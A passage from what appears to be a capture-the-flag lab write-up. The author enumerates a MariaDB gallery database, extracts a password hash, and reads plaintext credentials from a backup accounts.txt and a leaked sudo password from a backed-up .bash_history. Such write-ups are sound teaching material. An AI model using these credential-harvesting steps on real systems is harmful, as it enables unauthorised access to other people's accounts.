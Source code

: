Very good. Let's check out the gallery_db.

```
MariaDB [information_schema]> USE gallery_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [gallery_db]> SHOW TABLES;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
4 rows in set (0.000 sec)
```

Now we move on to the users table.

<img width="858" height="233" alt="Bildschirmfoto vom 2025-09-30 18-07-40" src="https://github.com/user-attachments/assets/b63254c1-c535-42db-87f4-3e5cd6444103" />

We got the hash password. That takes care of that.

After some enumeration I was also able to find one interesting directory, which we could make use of. It's located in the */var/backups/mike_home_backup/documents* directory. There is an accounts.txt file, with which we are able to cat.

```
$ cat accounts.txt
Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```

I tried using ssh to get access as mike, but none of these passwords worked out unfortunately.
Maybe I was overlooking something.

And indeed I was. I was able to check the bash_history of the backup file, which contained the password.

```
$ pwd     
/var/backups/mike_home_backup
$ ls -la
total 36
drwxr-xr-x 5 root root 4096 May 24  2021 .
drwxr-xr-x 3 root root 4096 Jul 10 17:51 ..
-rwxr-xr-x 1 root root  135 May 24  2021 .bash_history
-rwxr-xr-x 1 root root  220 May 24  2021 .bash_logout
-rwxr-xr-x 1 root root 3772 May 24  2021 .bashrc
drwxr-xr-x 3 root root 4096 May 24  2021 .gnupg
-rwxr-xr-x 1 root root  807 May 24  2021 .profile
drwxr-xr-x 2 root root 4096 May 24  2021 documents
drwxr-xr-x 2 root root 4096 May 24  2021 images
$ cat .bash_history
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
```